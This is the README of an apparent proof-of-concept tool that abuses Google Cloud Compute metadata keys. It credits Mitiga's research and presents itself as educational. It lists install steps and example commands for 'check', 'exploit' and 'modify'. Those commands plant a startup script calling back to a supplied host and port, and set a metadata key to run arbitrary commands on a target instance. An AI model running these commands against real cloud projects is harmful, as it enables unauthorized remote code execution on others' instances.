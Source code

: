 # GCP Metadata API Abuse "PoC" (gce-s3r1al.py)
A script to take advantage of a unique design in Google Cloud's Compute API capabilities and implementation of Metadata keys.
**This is for testing and educational purposes only and comes with no warranty.**

## Overview
**This is based on research conducted by the Andrew Johnson at Mitiga - check out the original [blog post here](https://www.mitiga.io/blog/misconfiguration-hidden-dangers-cloud-control-plane)**

To get more information on this capability, the inner workings behind it, and other information, go check out the extensive [blog post I wrote](https://mgior.com/google-cloud-misconfiguration-poc/) about developing this "PoC". At some point I will translate a lot of the high-level information from the blog post and include it in this README.

## Usage
To get started, first clone the repository and install the required Python libraries
```
git clone https://github.com/mikegior/gce-s3r1al
cd gce-s3r1al/
pip3 install -r requirements.txt
```

The script has three commands you can use:
- **`check`** - check roles associated with the account you have access to to determine if required roles are present
- **`exploit`** - set the startup-script and s3r1al metadata keys and values to the specified instance
- **`modify`** - modify the s3r1al metadata key's value to an arbitrary command to execute

Prior to using this script, you will need install required Python libraries first. To do this,

Example usage for each command:
```sh
$ python3 gce-s3r1al.py check --authfile creds.json
$ python3 gce-s3r1al.py exploit --host 1.2.3.4 --port 8000 --payloadfile metalisten.sh --authfile creds.json --project serial-poc-1 --zone us-central1-a --instance poc-instance
$ python3 gce-s3r1al.py modify --authfile creds.json --project serial-poc-1 --zone us-central1-a --instance poc-instance
```

The blog post outlines more about each command and the anticipated output.